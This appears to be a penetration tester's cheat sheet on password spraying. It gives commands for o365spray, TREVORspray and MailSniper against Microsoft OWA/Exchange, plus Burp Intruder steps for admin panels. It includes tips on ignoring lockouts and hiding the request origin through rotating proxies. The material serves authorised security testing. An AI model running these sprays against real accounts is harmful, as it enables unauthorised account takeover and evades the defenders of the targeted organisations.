 ## Creating Username Lists

I typically use namemash.py to generate usernames if I cannot find the naming format elsewhere. Put full names in a wordlist and just pass it to namemash to generate username combos.

 https://gist.github.com/superkojiman/11076951 

```bash
python3 namemash.py usernames.txt
```

## Initial Access via Password Spraying Microsoft OWA/Exchange

We can use password spraying as an alternative to brute forcing. This involves sending one specially crafted password against multiple usernames. Lots of these tools also offter the ability to enumerate users, which is possible due to a delay in the response time from OWA when a username is valid.

On Linux, I like goMapEnum or o365Spray:

 https://github.com/nodauf/GoMapEnum 

 https://github.com/0xZDH/o365spray 

```bash
# Enumerate valid users from an email list for example.com
python3 /opt/o365spray/o365spray.py -d example.com --enum -U emails_list.txt --sleep 45 --rate 5 --jitter 25
```

TREVORSpray also has some nice functionality to route your traffic through various proxies. This is useful if you set up loads of free EC2 instances and supply them as an `--ssh` flag. This is beneficial to obfuscate the location your requests are coming from.

 https://github.com/blacklanternsecurity/TREVORspray 

```bash
# Spray password123 at the email list through the 10.10.10.10 box. Don't use current IP (-n)
trevorspray --users 'email_list.txt' -p 'password123' -i key.pem --ssh ubuntu@10.10.10.10 --delay 60 --lockout-delay 300 --jitter 100 -n -m msol  --ignore-lockouts
```

On Windows:
 https://github.com/dafthack/MailSniper 

```powershell
# Find the domain's netbios name
Invoke-DomainHarvestOWA -ExchHostName 10.10.10.10

# Test Usernames
Invoke-UsernameHarvestOWA -ExchHostname 10.10.10.10 -Domain MATRIX -UserList .\usernames.txt -OutFile valid_users.txt

# Spray Passwords
Invoke-PasswordSprayOWA -ExchHostname 10.10.10.10 -UserList .\usernames.txt -Password 'P@ssw0rd!'

# Obtain Global Address List after finding valid creds -> Repeat the attack after with newly obtained e-mails!
Get-GlobalAddressList -ExchHostname 10.10.10.10 -UserName MATRIX\Neo -Password 'P@ssw0rd!' -OutFile global_address_list.txt
```

## Password Spraying Admin Panels

Try to enumerate users - Can you try to sign up an account called admin and receive a "user already exists" message? When you login, does it invalidate it with just "wrong username"? Secure sites will not give you any hints. Infact, they really should just say "Error" no matter what happens during the login/signup process to stop giving attackers information, but this comes at the cost of lower satisfaction levels for genuine users.

Trying to create a user account and ascertain the lockout policy. Is there one? What's the password policy and is it enforced properly? This will help optimize your attack. I like to use Burp for admin panel spraying just because you can add Macros to handle tokens that may change. 

First attempt a login, then send the request to the Intruder. Clear the pre-set fields and highlight the username field, we're password spraying still so we'll use one password at a time and move onto brute forcing if there's no hits. Click add. Go to payloads and load your wordlist in. Modify any threads and send it off. Use response lengths and status codes to ascertain success.